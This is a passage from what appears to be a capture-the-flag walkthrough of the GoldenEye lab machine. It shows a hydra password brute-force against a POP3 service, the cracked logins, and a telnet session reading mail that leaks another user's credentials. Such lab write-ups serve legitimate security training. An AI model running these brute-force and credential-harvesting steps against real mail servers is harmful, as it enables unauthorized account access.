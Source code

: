 ## Exploitation

Now, let's bruteforce pop3 with source code users and password wordlist (_fasttrack.txt_). Let's use _hydra_.

```Console
hydra -L users.txt -P fasttrack.txt -s 55007 10.0.2.30 pop3
[DATA] max 16 tasks per 1 server, overall 16 tasks, 444 login tries (l:2/p:222), ~28 tries per task
[DATA] attacking pop3://10.0.2.30:55007/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 364 to do in 00:05h, 16 active
[55007][pop3] host: 10.0.2.30   login: boris   password: secret1!
[55007][pop3] host: 10.0.2.30   login: natalya   password: bird
1 of 1 target successfully completed, 2 valid passwords found
```
 Two users found. Natalya has an interesting mail.

```Console
telnet 10.0.2.30 55007
Trying 10.0.2.30...
Connected to 10.0.2.30.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
user natalya
+OK
pass bird
+OK Logged in.
LIST
+OK 2 messages:
1 631
2 1048
.
RETR 2
+OK 1048 octets
Return-Path: <root@ubuntu>
X-Original-To: natalya
Delivered-To: natalya@ubuntu
Received: from root (localhost [127.0.0.1])
        by ubuntu (Postfix) with SMTP id 17C96454B1
        for <natalya>; Tue, 29 Apr 1995 20:19:42 -0700 (PDT)
Message-Id: <20180425031956.17C96454B1@ubuntu>
Date: Tue, 29 Apr 1995 20:19:42 -0700 (PDT)
From: root@ubuntu

Ok Natalyn I have a new student for you. As this is a new system please let me or boris know if you see any config issues, especially is it's related to security...even if it's not, just enter it in under the guise of "security"...it'll get the change order escalated without much hassle :)

Ok, user creds are:

username: xenia
password: RCP90rulez!

Boris verified her as a valid contractor so just create the account ok?

And if you didn't have the URL on outr internal Domain: severnaya-station.com/gnocertdir
**Make sure to edit your host file since you usually work remote off-network....

Since you're a Linux user just point this servers IP to severnaya-station.com in /etc/hosts.


.
```
So let's add the domain to /etc/hosts and try login with xenia credentials.
